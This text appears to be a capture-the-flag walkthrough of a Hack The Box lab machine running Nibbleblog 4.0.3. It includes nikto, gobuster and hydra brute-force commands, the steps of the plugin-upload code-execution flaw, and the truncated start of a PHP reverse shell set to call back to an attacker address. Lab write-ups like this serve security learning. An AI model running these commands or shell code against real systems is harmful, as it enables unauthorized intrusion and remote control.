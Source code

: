```
nikto -host http://10.10.10.75/nibbleblog/
```

![AeYklt.png](https://s2.ax1x.com/2019/03/17/AeYklt.png)

`[nibbleblog](http://www.nibbleblog.com/)`  is an open source blog system which has been widely used. From the above screenshot, some interesting links can be found. And also try to brute force with `gobuster`:

```
gobuster -u http://10.10.10.75/nibbleblog/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

Similarly, the directory of `nibbleblog` can be found, just like admin, content, etc. Open the README of the blog:

![AeYynK.png](https://s2.ax1x.com/2019/03/17/AeYynK.png)

The version is `4.0.3`. Google with `nibbleblog 4.0.3 exploit`. Find a [report](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) to talk about the exploit of nibbleblog of `4.0.3`.

![AeYRtH.png](https://s2.ax1x.com/2019/03/17/AeYRtH.png)

The research report is detailed. But there is a precondition that you have to obtain admin credentials. Access to login page: `http://10.10.10.75/nibbleblog/admin.php`.

[![AeY5ct.png](https://s2.ax1x.com/2019/03/17/AeY5ct.png)](https://imgchr.com/i/AeY5ct)

Try the password of `123456` and `admin`. Both are not correct. I have even tried to use hydra:

`hydra -l admin -P /usr/share/wordlist/rockyou.txt -vV -f -t 2 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:login_error"`

![AetpuV.png](https://s2.ax1x.com/2019/03/17/AetpuV.png)

The hydra result shows that the password is `123456`. But it is not correct. I doubt it has something with the blacklist of `nibbleblog`. Whatever, try to figure out the password. Try `nibbles`. Wow, we are in. You should try every password as more as possible. 

As you have logged in. The above report can be used:

1. Obtain Admin credentials (for example via Phishing via XSS which can be gained via CSRF, see advisory about CSRF in NibbleBlog 4.0.3)
2. Activate My image plugin by visiting http://10.10.16.44/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
3. Upload PHP shell, ignore warnings
4. Visit http://localhost/10.10.16.44/content/private/plugins/my_image/image.php. This is the default name of images uploaded via the plugin.

Upload a reverse shell php file and use nc to listen to port `1234`:

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.44';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//
```